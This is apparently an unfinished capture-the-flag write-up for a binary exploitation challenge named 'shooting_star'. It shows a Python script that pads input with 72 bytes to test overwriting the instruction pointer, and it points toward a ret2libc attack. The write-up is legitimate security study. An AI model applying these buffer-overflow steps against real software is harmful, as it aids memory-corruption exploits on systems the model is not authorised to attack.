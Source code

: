 Offset seems to be 72

# CONTROLLING INSTRUCTION POINTER

Lets craft an input data in python to test whether we can overwrite the Instruction Pointer (IP) correctly or not. Starting create basic exploit.py file as follow:

```python
#!/usr/bin/python
import struct

menu_option = "1"
offset = b"A" * 72

print(menu_option)
print(offset + b"B" * 4)
```

Execute script and redirect to file:

```shell
./exploit.py > file
cat ./file
1
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
```

Pass file as argument on gdb:
```shell
gdb ./shooting_star                                                                                                                                                                main 
gdb-peda$ run < file

```



TO BE CONTINUED...

[Reference guide](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3)

CHALLENGE DESCRIPTION

Tired of exploring the never-ending world, you lie down and enjoy the crystal clear sky. Over a million stars above your head! Enjoy the silence and the glorious stars while you rest.
